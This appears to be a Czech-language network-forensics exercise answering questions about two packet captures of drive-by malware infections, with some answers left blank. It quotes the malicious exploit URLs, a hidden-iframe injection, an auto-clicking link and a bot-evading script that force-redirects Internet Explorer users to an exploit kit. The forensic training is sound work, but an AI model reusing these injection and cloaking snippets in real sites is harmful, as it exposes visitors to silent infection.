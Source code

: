 # Zadání první části – soubor uloha1.pcap

### 1. Jaká je IP adresa stanice, která byla infikována?

```
127.80.179.181
```

### 2. Jaký prohlížeč infikovaná stanice používala?

Internet Explorer 8.0

User-Agent:
```
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
```

### 3. Jaká je URL, ze které byl exploit stažen?

```
http://static.this-is-not-a-botnet.com/3h251q2c35
```

### 4. Jaká je URL webové stránky, ze které se stanice dostala na URL s exploitem?

```
http://akronkappas.com//d2a42e1f7d9a1021bd7d93af414c95c4.php?q=70a9b40eb73da11445c3a3609c8241d9
```

### 5. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

```
<a id='myLink' href='http://static.this-is-not-a-botnet.com/3h251q2c35'>click</a><script>document.getElementById('myLink').click();</script>
```

# Zadání druhé části – soubor uloha2.pcap

### 1. Která URL adresa (uveďte alespoň doménu) způsobila infekci stanice?

```
http://tyu.benme.com/%3fct=Vivaldi&biw=Vivaldi.95ec76.406i7c5k7&oq=h8fItKeRVawGyjRaFcw1nyYdeAwgQ8_qtiEKBzBKfgZ6D-hyMZAh1z6LRVvQ42w&tuif=2320&q=wH7QMvXcJwDNFYbGMvrER6NbNknQA0KPxpH2_drZdZqxKGni2Ob5UUSk6FqCEh3&yus=Vivaldi.114tq57
```

### 2. Jak se uživatel dostal na danou doménu?

http://retrotip.visionurbana.com.ve/dle_js.js

```
document.write('<div class="" style="position:absolute; width:383px; height:368px; left:17px; top:-858px;">  <div  style="" class=""><a>head</a><a class="head-menu-2"> </a><iframe src="http://tyu.benme.com/?q=zn_QMvXcJwDQDofGMvrESLtEMUbQA0KK2OH_76iyEoH9JHT1vrTUSkrttgWC&biw=Amaya.81lp85.406f4y5l9&oq=elTX_fUlL7ABPAuy2EyALQZnlY0IU1IQ8fj630PWwUWZ0pDRqx29UToBvdeW&yus=Amaya.110oz60.406a7e5q8&br_fl=4109&tuif=5364&ct=Amaya" width=290 height=257 ></ifr' +'ame> <a style=""></a></div><a class="" style="">temp</a></div>');
```

### 3. Samotný malware je uložen na jiné (externí) URL adrese. Jaká je to adresa?

```

```

### 4. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

```

```

alebo

```
var NormalURL = 'http://tyu.benme.com/?oq=CEh3h8_svK7pSP1LgiRbVcgU3n45bWw8S_6qviBCBmBWUhcSHrxLeNwt1z6I&q=wH7QMvXcJwDIFYbGMvrETKNbNknQA06PxpH2_drZdZqxKGni0ub5UUSk6Fy&tuif=5921&br_fl=5828&biw=Vivaldi.82ss74.406q9e2t1&yus=Vivaldi.80lf74.406f5d1w2&ct=Vivaldi';


function start() {
	BrowserInfo = getBrowser();

	if(BrowserInfo.is_bot == true) {
		document.write('');		
			} else {
      if(BrowserInfo.browser_real=='ie') {
		    window.frames[0].document.body.innerHTML = '<form target="_parent" method="post" action="'+NormalURL+'"></form>'; 
		    window.frames[0].document.forms[0].submit();
      }
	}
	
}
```
